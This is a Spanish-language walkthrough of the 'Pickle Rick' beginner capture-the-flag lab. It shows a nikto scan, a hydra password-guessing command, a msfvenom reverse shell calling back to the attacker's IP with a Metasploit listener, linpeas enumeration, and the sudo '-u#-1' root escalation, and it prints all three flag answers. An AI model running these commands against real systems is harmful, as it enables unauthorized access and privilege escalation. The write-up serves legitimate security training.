

# Pickle Rick
Este CTF para Beginners nos pide encontrar 3 ingredientes de la pocion para volver a la normalidad a Rick

## Rick user
Si inspeccionamos la pagina nos encontraremos con el usuario de rick comentado. Esta info nos es util para ataques por diccionario. Pero veamos que mas pillamos.

```
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

## Escaneando la maquina
La verdad es que si escaneamos no nos dice mucho, un puerto 22 y un 80.

El puerto 22 tiene deshabilitado el login por contraseña, asiq ue mientras no tengamos la llave, ni soñar.

## Escaneando la pagina
Vamos a usar nikto para listar posibles archivos de interés.

```
nikto -host 10.10.229.151
```
```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.229.151
+ Target Hostname:    ip-10-10-229-151.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-09-05 00:36:09 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-09-05 00:36:17 (GMT1) (8 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Algunas cosas interesantes es que entontramos un login.php y un archivo robots.txt

login.php nos lleva  aun login, ya tenemos el username por lo que nos falta encontrar la contraseña.

Podemos dejar un ataque por diccionario mientras vemos otras opciones.

```
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.229.151 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -V -F
```

En el robots.txt encontramos algo interesante, pero típico de Rick.

```
Wubbalubbadubdub
```

Suena como a Rick, usemoslo como contraseña.


Entramos :D.

Tenemos una shell al parecer que nos permite jugar, veamos que hay:


Y si buscamos el archivo Sup3rS3cretPickl3Ingred.txt

1. What is the first ingredient that Rick needs? **mr. meeseek hair**

Tambien hay otro archivo que dice clue.txt

Al revisarlo nos dice que revisemos el filesystem.

Hice varias cosas, pero al final di con lo siguiente:

Con find busquemos algun archivo

cat no funciona porque está deshabilitado, por lo que tendremos que "leerlo" de alguna manera. Usemos base64 para aquello:

```base64 ../../../passwd | base64 --decode```


2. What is the second ingredient in Rick’s potion?: **1 jerry tear**

Nos faltaria el último ingrediente y obvio, tenemos que escalar a root.

Por un lado generamos una shell reversa

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.8.153.49 LPORT=4444 -f elf > shell-x86.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
 
```

descargamos linpeas.sh
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh 
```

levantamos servidor http local
```
python -m http.server 80                                                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el prompt descargamos el shell creado anteriormente y le damos permisos de ejecucion




En el prompt descargamos linepeas y le damos permisos de ejecucion


En nuestra maquina atacante levantamos metasploit y generamos el listener

```
use multi/handler
```

```
use payload linux/x86/shell/reverse_tcp
use 0
set lhost 10.8.153.49
exploit
```

En el command panel ejecutamos el shell reverso


Eso levantara nuestra shell en metasploit
```
msf6 payload(linux/x86/shell/reverse_tcp) > 
[*] Started reverse TCP handler on 10.8.153.49:4444 
[*] Sending stage (36 bytes) to 10.10.194.228
[*] Command shell session 1 opened (10.8.153.49:4444 -> 10.10.194.228:55854) at 2023-09-05 15:50:54 -0400

```

ya adentro, ejecutramos linepeas para que busque vulnerabilidades y nosotros a tomar cafecito.

```
/tmp/linepeas.sh
```

Dentro de lo que nos avisa, es de un exploit que afecta a la version de sudo que afecta las versiones menores a 1.28
```
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                             
Sudo version 1.8.16 
```

Exploiting

```
sudo -u#-1 /bin/bash
```
```
whoami
root
```
```
ls /root
3rd.txt
snap
```
```
cat /root/3rd.txt
3rd ingredients: fleeb juice
```
3. What is the last and final ingredient?: ***fleeb juice***

Y con eso estamos
P.D.: Hice varias cosas manuales antes de ejecutar linpeas, pero es increible el tiempo que ahorra. :D.